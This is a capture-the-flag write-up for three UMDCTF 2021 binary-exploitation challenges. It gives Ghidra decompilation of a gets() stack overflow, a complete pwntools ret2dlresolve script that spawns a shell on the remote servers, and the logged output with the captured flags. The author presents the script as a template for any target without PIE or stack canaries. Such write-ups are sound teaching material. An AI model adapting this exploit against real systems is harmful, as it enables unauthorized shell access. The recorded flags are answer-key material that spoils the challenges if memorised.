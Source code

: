 # UMDCTF 2021

## Jump Is Easy/Jump Not Easy/Jump Not Working

> Jumping is easy. Where do we want to jump to is the hard part.
>
> `nc chals6.umdctf.io 7001`
>
> author: WittsEnd2
>
> score: 1/10
>
> [jie](jie)
> 
> What happened? This new adventure is not as easy as the first one?
>
> `nc chals6.umdctf.io 7003`
>
> author: WittsEnd2
>
> score: 2/10
>
> [jne](jne)
> 
> We are trying to jump somewhere, but nothing is happening. Can you figure out what is going on?
>
> `nc chals6.umdctf.io 7004`
>
> author: WittsEnd2
>
> score: 3/10
>
> [jnw](jnw)

Tags: _pwn_ _x86-64_ _ret2dlresolve_ _bof_


## Summary

I'm lumping all of these together since I used the exact same code on all of them.  And I'm sure this was _not_ the intended solution.

I'm not going to cover all the internals or details of ret2dlresolve (in this write up, I'm working on a future article), however here are two good reads:

[https://syst3mfailure.io/ret2dl_resolve](https://syst3mfailure.io/ret2dl_resolve)  
[https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62](https://gist.github.com/ricardo2197/8c7f6f5b8950ed6771c1cd3a116f7e62)


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    Stack:    No canary found
    PIE:      No PIE (0x400000)
```

All three had at least the above--all that is needed for easy ret2dlresolve with `gets`.


### Decompile with Ghidra

```c
undefined8 jump(void)
{
  char local_48 [64];
  
  puts("Where do you want to go?");
  gets(local_48);
  return 0xffffffff;
}
```

Yep, `gets`.  All three of them.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./jnw')

rop = ROP(binary)
ret = rop.find_gadget(['ret'])[0]

dl = Ret2dlresolvePayload(binary, symbol='system', args=['sh'])

rop.raw(ret)
rop.gets(dl.data_addr)
rop.ret2dlresolve(dl)

if args.REMOTE:
    p = remote('chals5.umdctf.io', 7004)
else:
    p = process(binary.path)

payload  = b''
payload += 0x48 * b'A'
payload += rop.chain()
payload += b'\n'
payload += dl.payload

p.sendline(payload)
p.interactive()
```

Alright script-kiddies, take this, change the binary, change the stack frame offset (`0x48`) for the `gets` buffer, change the `remote`, and as long as no PIE and no canary, you'll pwn the box.


Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jie/jie'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[*] Loading gadgets for '/pwd/datajerk/umdctf2021/jie/jie'
[+] Opening connection to chals5.umdctf.io on port 7001: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{Sh311c0d3_1s_The_B35T_p14c3_70_jump_70}

# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jne/jne'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loading gadgets for '/pwd/datajerk/umdctf2021/jne/jne'
[+] Opening connection to chals5.umdctf.io on port 7003: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{wh323_423_WE_G01n9_n3xt?}

# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/umdctf2021/jnw/jnw'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Loaded 14 cached gadgets for './jnw'
[+] Opening connection to chals5.umdctf.io on port 7004: Done
[*] Switching to interactive mode
Welcome to the space shuttle! Get ready for an adventure!
Where do you want to go?
$ cat flag
UMDCTF-{JuMp_1s_N0w_w0RK1nG}
```
